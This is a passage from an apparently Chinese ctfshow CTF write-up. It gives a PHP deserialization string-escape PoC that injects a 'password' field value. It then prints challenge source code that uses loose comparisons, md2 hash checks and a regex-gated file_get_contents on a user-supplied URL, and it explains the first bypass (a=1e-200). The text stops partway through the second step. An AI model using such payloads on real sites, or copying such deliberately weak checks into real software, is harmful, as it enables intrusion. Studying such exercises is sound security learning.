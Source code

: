 ```
POC:
?1= FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky";s:8:"password";s:5:"yu22x";}
```

### Web2\_故人心

代码审计题

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$a=$_GET['a'];
$b=$_GET['b'];
$c=$_GET['c'];
$url[1]=$_POST['url'];
if(is_numeric($a) and strlen($a)<7 and $a!=0 and $a**2==0){
    $d = ($b==hash("md2", $b)) && ($c==hash("md2",hash("md2", $c)));
    if($d){
             highlight_file('hint.php');
             if(filter_var($url[1],FILTER_VALIDATE_URL)){
                $host=parse_url($url[1]);
                print_r($host); 
                if(preg_match('/ctfshow\.com$/',$host['host'])){
                    print_r(file_get_contents($url[1]));
                }else{
                    echo '差点点就成功了！';
                }
            }else{
                echo 'please give me url!!!';
            }     
    }else{
        echo '想一想md5碰撞原理吧?!';
    }
}else{
    echo '第一个都过不了还想要flag呀?!';
}
```

一层一层的来看吧

第一层：

a是数字，长度小于7，不等于0，但是平方后等于0

其实只要构造一个极小的数字就可以了

用科学计数法：

a=1e-200 就是1的负200次方 0.000000...1，再平方一下这个数已经小到计算机都不想要了，所以说平方就等于0咯。

第二层：

b要等于b的md2值，然后c要等于c的md2值的md2值
